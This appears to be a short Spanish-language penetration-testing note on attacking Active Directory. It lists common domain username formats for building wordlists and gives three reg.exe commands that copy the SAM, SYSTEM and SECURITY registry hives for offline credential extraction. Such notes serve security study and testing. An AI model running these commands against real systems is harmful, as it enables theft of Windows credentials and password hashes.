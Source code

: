 # Atacar Active Directory y NTDS.dit
## Descripción
Extraer credenciales mendiante el uso de ataque de diccionario contra cuenta de AD y dumpear hashes desde el NTDS.dit.

### Forma típica de usuarios en el Dominio
- **firstinitiallastname:** jdoe
- **firstinitialmiddleinitiallastname:** jjdoe
- **firstnamelastname:** janedoe
- **firstname.lastname:** jane.doe
- **lastname.firstname:** doe.jane
- **nickname:** doedoehacksstuff

```python
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```
